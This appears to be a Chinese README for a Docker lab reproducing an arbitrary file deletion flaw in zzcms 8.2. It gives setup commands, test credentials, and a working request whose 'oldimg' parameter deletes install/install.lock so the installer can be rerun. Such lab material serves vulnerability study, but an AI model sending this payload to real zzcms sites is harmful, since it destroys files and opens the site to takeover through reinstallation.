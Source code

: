 ## 启动环境

```
docker-compose build
docker-compose up -d
```



## 0x01 任意文件删除漏洞

要想利用此漏洞必须现在前台注册一个普通用户账户，我已经创建了一个普通用户luffy:shadow

GET:http://127.0.0.1/user/licence_save.php?action=modify
POST:title=1&img=1&oldimg=install/install.lock&id=1

![](README/luffy1.png)

对比

![](README/luffy2.png)



然后重装 [zzcms安装向导](http://127.0.0.1/install/index.php)


![](README/luffy3.png)


![](README/luffy4.png)



[zzcms 8.2任意文件删除漏洞](https://bbs.ichunqiu.com/thread-35355-1-1.html)
